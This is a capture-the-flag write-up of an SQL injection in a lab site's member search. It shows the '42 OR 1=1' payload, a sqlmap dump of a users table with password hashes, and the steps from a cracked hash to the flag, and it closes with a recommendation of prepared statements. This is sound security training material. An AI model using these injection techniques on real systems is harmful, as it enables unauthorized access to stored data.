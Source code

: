 # Sql Injection Members
- In the page /?page=member there is a field to search members by their ids.
- That input gives us an SQL statement error "Unknown column 'Foo' in 'where clause'" in case of invalid input ie: Foo.

# Vulnerability
- We could imagine the SQL statement in back end is as follows:
```sql 
    SELECT * FROM users WHERE id = $_GET['id']
```
- We can enter some malicius input like this: 42 OR 1=1 this statment is always true so it will return ALL rows from the "users" table.
- Using 'sqlmap' to dump users data from users table returns this:
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
- Notice the comment: Decrypt this password -> then lower all the char. Sh256 on it and it's good !         5ff9d0165b4f92b14994e5c685cdce28
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is FortyTwo.
- Converting fortytwo to sha256 is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 Which is Our Flag.

# Fix
- We can prevent this by using prepared statements and parameterized queries.